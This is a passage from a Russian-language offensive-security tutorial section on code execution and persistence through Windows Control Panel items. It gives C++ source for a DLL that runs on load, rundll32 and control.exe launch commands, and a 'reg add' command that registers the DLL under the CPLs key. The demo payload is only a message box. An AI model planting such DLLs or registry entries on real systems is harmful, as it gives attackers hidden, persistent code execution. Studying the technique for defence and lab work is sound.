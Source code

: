 Вот что в итоге: https://imgur.com/a/mj80Af7

CPL также можно запустить с помощью команды `control.exe <pathtothe.cpl>`, например: https://imgur.com/a/AECnsnH

или запускаем через `rundll32`: https://imgur.com/a/JsZhAeZ

    rundll32 shell32, Control_RunDLL \\VBOXSVR\Experiments\cpldoubleclick\cpldoubleclick\Debug\cpldoubleclick.cpl

Потом делаем, к примеру, .bat скрипт, который ставим на какой-нибудь из способов выше, чтобы он запускался при старте системы.

## 51. Code Execution through Control Panel Add-ins
Давай скомпилируем наш control panel item (который представляет собой простую DLL с exported function `Cplapplet`) из приведенного ниже кода:

    #include <Windows.h>
    #include "pch.h"

    //Cplapplet
    extern "C" __declspec(dllexport) LONG Cplapplet(
        HWND hwndCpl,
        UINT msg,
        LPARAM lParam1,
        LPARAM lParam2
    )
    {
        MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
        return 1;
    }

    BOOL APIENTRY DllMain(HMODULE hModule,
        DWORD  ul_reason_for_call,
        LPVOID lpReserved
    )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
        {
            Cplapplet(NULL, NULL, NULL, NULL);
        }
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }

Теперь зарегистрируем наш control panel item в качестве add-in: https://imgur.com/a/L0aPtUa

    reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs" /v spotless /d "C:\labs\cplAddin\cplAddin\x64\Release\cplAddin2.dll" /f
